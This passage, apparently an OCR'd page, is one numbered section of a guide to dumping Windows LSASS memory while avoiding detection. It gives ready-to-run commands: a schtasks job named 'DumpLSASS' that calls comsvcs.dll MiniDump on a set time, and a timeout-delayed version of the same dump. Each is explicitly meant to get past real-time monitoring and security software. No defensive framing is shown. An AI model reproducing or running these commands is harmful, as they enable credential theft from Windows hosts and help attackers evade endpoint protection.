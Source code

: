 ### 8. **Time-delayed Execution**
   - **Scheduled Tasks**: Use a scheduled task to delay the execution, which might bypass real-time monitoring tools.

     ```cmd
     schtasks /create /tn "DumpLSASS" /tr "rundll32.exe c:\windows\system32\comsvcs.dll, MiniDump 1234 c:\windows\temp\lsass.dmp full" /sc once /st 23:59
     ```

   - **Sleep Functions**: Introduce a sleep or delay before executing the dump command to reduce the likelihood of detection by security software.

     ```cmd
     timeout /t 30 /nobreak >nul & rundll32.exe c:\windows\system32\comsvcs.dll, MiniDump 1234 c:\windows\temp\lsass.dmp full
     ```
